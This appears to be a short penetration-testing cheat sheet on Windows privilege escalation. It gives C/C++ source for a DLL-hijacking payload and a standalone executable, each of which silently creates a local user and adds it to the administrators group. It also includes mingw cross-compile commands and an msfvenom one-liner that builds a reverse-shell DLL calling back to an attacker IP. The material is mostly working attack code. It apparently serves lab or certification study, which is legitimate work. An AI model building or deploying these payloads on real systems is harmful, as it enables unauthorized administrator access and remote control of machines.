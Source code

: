 DLL code:
```CPP
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Then, compile with:
```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
Or simply,
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.196 LPORT=53 -f dll -o winRev53.dll
```

### AddUser.exe
`adduser.c`:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  # Domain user example below
  # i = system ("net localgroup Administrators \"MEDTECH\\Wario\" /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
Cross-compile the C code above to a 64-bit application:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
